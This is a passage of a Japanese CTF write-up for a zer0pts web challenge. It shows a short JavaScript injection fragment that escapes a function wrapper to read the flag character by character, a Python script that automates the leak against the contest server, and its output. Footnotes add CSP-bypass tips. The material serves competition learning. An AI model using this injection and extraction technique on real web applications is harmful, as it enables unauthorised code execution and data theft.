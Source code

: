 ```
});(a=>_=>(a+'')[16])(_=>{
```
最終的に攻撃に用いた断片はこれです（26文字）。
復元すると
```javascript
'use strict'; (function () { return });(a=>_=>(a+'')[16])(_=>{;/* zer0pts{xxx} */ })()
```
になります。

![](./img/kantancalc-02.png)

良さそうです。

### 攻撃

手動で一文字ずつ確定させるのは大変なのでスクリプトを書きました[^6]。
```python
import httpx
import urllib
import time

flag = ""

index = 0
while not flag.endswith("}"):
    time.sleep(0.01)
    payload = urllib.parse.quote("});(a=>_=>(a+'')[" + str(index) + "])(_=>{")
    res = httpx.get(
        f"http://web.ctf.zer0pts.com:8002/?code={payload}"
    )
    assert res.status_code == 200
    flag += res.text[res.text.find("</output>")-1]
    print(flag)
    index += 1
print("result: ", flag)
```

[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。

実行すると次のように出力されます。
```sh
$ python exploit.py
_
_=
_=;
_=;{
_=;{;
_=;{;
_=;{; /
_=;{; /*
_=;{; /*
_=;{; /* z
_=;{; /* ze
_=;{; /* zer
_=;{; /* zer0
_=;{; /* zer0p
```

[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。
[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。
[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。
[^7]: https://simple.wikipedia.org/wiki/Leet